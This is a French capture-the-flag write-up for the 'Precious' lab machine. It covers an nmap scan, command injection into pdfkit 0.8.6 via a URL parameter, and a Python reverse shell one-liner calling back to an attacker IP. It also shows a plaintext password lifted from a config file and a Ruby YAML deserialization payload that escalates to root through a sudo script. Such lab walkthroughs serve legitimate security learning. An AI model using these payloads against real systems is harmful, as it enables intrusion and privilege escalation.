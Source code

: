 # Precious - Easy

```bash
Starting Nmap 7.92 ( https://nmap.org ) at 2022-12-27 18:47 EST
Nmap scan report for 10.10.11.189
Host is up (0.073s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 84:5e:13:a8:e3:1e:20:66:1d:23:55:50:f6:30:47:d2 (RSA)
|   256 a2:ef:7b:96:65:ce:41:61:c4:67:ee:4e:96:c7:c8:92 (ECDSA)
|_  256 33:05:3d:cd:7a:b7:98:45:82:39:e7:ae:3c:91:a6:58 (ED25519)
80/tcp open  http    nginx 1.18.0
|_http-server-header: nginx/1.18.0
|_http-title: Did not follow redirect to http://precious.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.69 seconds
```

Arrivée sur un site qui permet de transformer une page en pdf, les pages classiques tels que [google.com](http://google.com) ne marchent pas ni la page en elle même : Cannot load remote URL!

En hostant des fichiers sur sa machine on peut fetch en pdf sur le site, on va donc essayer de faire une reverse shell

[https://mhmdiaa.com/blog/exploiting-html-imports/](https://mhmdiaa.com/blog/exploiting-html-imports/)

Pas de possibilité d’inclure un fichier dans le pdf via javascript, on remarque alors que le pdf est généré avec pdfkit 0.8.6 qui est vulnérable et exploitable via le paramètre `?name=%20`commande``

en plus de l’url. On utilise un reverse shell python:

```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ip",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

On est connecté en tant que ruby

Dans le dossier caché .bundle dans le home de ruby, on trouve le mot de passe de henry dans le fichier config:

```bash
"henry:Q3c1AqGHtoI0aXAYFH"
```

On peut alors se connecter en SSH et obtenir le flag user

Il y a un SETUID énoncé comme tel : 

```bash
sudo /usr/bin/ruby /opt/update_dependencies.rb
```

Le but est donc de trouver un moyen pour exploiter ce SETUID

On se place dans notre home et on crée un dependencies.yaml

Il s’agit de faire une attack sur la deserialisation yaml par ruby

[Blind Remote Code Execution through YAML Deserialization](https://blog.stratumsecurity.com/2021/06/09/blind-remote-code-execution-through-yaml-deserialization/)

```bash
Serialization is the process of turning some object into a data format that can be restored later. People often serialize objects in order to save them to storage, or to send as part of communications.

Deserialization is the reverse of that process, taking data structured from some format, and rebuilding it into an object. Today, the most popular data format for serializing data is JSON. Before that, it was XML.
```

En suivant l’exemple du lien plus haut, on modifie le code pour obtenir un shell :

```yaml
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: "bash -c '/bin/sh'"
         method_id: :resolve
```

On obtient un shell root et on obtient le flag !
